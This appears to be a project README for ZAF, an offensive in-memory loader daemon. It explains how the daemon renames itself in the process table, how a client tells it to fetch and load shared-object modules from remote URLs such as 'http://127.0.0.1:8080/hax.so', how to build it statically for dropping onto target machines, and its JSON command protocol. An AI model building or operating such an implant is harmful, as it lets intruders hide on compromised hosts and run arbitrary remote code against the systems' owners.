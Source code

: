 
## Usage:

1. Start ZAF background daemon: 

`./bin/zaf`

_Note_: it will rename itself in process tabel accordingly to your configuration

2. Reference client operation:

For details on a protocol please see _ZAF Command Protocol_ section below

```
Usage: ./tools/zclient.sh <cmd> [cmd args]
Example: ./tools/zclient.sh listmod
Example: ./tools/zclient.sh loadmod http://127.0.0.1:8080/hax.so
Example: ./tools/zclient.sh loadmod file://tmp/hax.so
Example: ./tools/zclient.sh unloadmod /hax.so
```
*TODO*: HTTP/S is not tested yet but should be supported

## Build

There are a couple of ways to build ZAF dependencies:  static and dynamic.
Dynamic would look for shared libraries on destination machine. 
Static would create a _mostly_ self-contained executable. The one issue I am not able to solve is to include libnss functons like `gethostbyaddr`. This needs to be tested if you are dropping a binary without compilation. 

In general, ZAF would need _libOpenSSL_, _libcURL_ and a couple of one-file libraries already included in `/extsrc` directory.
Below is how to build them. The build is mostly on Kali - Debian 9 testing. CentOS notes where applicable.

```
CentOS - libc 2.17
Kali   - libc 2.27
```

### _libOpenSSL: Static

[Building OpenSSL](https://wiki.openssl.org/index.php/Compilation_and_Installation)

1. Fetch current (_3.0.0-dev_) OpenSSL repo: `git clone git://git.openssl.org/openssl.git`

_Note_:CentOS has static glibc, and so it may depend on:

`yum install gcc glibc-static libstdc++-static -y`

2. Configure:

`./config no-shared no-threads no-dso no-engine no-err no-psk no-srp no-ec2m no-weak-ssl-ciphers no-idea no-comp no-ssl2 no-ssl3 -DOPENSSL_USE_IPV6=0 -static -static-libgcc --prefix=/root/Code/dist/openssl`

3. Make: 

```
make 
make install_sw
```

###  _libcURL`: Static

1. Fetch current (_7.64.0_) cURL repo: `git clone https://github.com/curl/curl`

_Note_: CentOS depends:

`yum install libtool autoconf automake nroff m4 -y`

2. `./buildconf `

3. Configure:


`CPPFLAGS="-I/root/Code/zombieant/ext/openssl/include" LDFLAGS="-L/root/Code/zombieant/ext/openssl/lib -static" ./configure --with-ssl -without-zlib --disable-debug --enable-optimize --disable-curldebug  --disable-ares  --disable-shared --disable-thread --disable-rt --disable-largefile --disable-ldap --disable-ldaps --disable-rtsp --disable-dict --disable-telnet --disable-tftp --disable-pop3 --disable-imap --disable-smtp --disable-gopher --disable-manual --disable-libcurl-option --disable-ipv6 --disable-threaded-resolver --disable-pthreads --disable-verbose --disable-tls-srp --enable-unix-sockets --disable-cookies --without-winssl --without-schannel --without-darwinssl --without-polarssl --without-mbedtls --without-cyassl --without-wolfssl --without-mesalink --without-nss --without-libpsl --without-libmetalink --without-librtmp --without-winidn --without-libidn2 --enable-static --prefix=/root/Code/zombieant/ext/curl`

4. Make:

`make curl_LDFLAGS=-all-static`

5. Copy `libcurl.a` to ZAF `/lib`

### libcJSON

ref: [cJSON] (https://github.com/DaveGamble/cJSON)

1. Fetch source: `git clone https://github.com/DaveGamble/cJSON`

2. Build 

`make all`
`make install DESTDIR="/root/Code/dist/cJSON"`

3. Copy `libcjson.a` to ZAF `/lib`:


### Other External Source dependencies (source only):

One-file or small supporting utilities:

[septroctitle] (https://github.com/simplegeo/setproctitle/blob/master/src/spt_status.c)
[C99 log.c] (https://github.com/rxi/log.c)

### ZAF

`make`

Warnings are from functions from libraries I was unable to include in the static build (it will look on dest system, so may want to build on the same distro).

```
make -C ./src
make[1]: Entering directory '/root/Code/zombieant/zafsrv/src'
/usr/bin/ld: /root/Code/zombieant/zafsrv/lib/libcurl.a(libcurl_la-netrc.o): in function `Curl_parsenetrc':
netrc.c:(.text+0x434): warning: Using 'getpwuid_r' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
/usr/bin/ld: /root/Code/zombieant/zafsrv/lib/libcurl.a(libcurl_la-curl_addrinfo.o): in function `Curl_getaddrinfo_ex':
curl_addrinfo.c:(.text+0x1b0): warning: Using 'getaddrinfo' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
/usr/bin/ld: /root/Code/zombieant/zafsrv/lib/libcrypto.a(libcrypto-lib-b_sock.o): in function `BIO_gethostbyname':
b_sock.c:(.text+0x251): warning: Using 'gethostbyname' in statically linked applications requires at runtime the shared libraries from the glibc version used for linking
make[1]: Leaving directory '/root/Code/zombieant/zafsrv/src'

```

## ZAF Command Protocol

- Listmod:

```json
{"command": "listmod"}

```

- Loadmod:

```json
{ 
 "command": "loadmod", 
 "args": [ 
       { "modurl": "http://127.0.0.1:8080/hax.so" } 
  ] 
}
```

- Unloadmod:

```json
{ 
 "command": "unloadmod", 
 "args": [ 
       { "modname": "hax.so" } 
  ] 
}
```

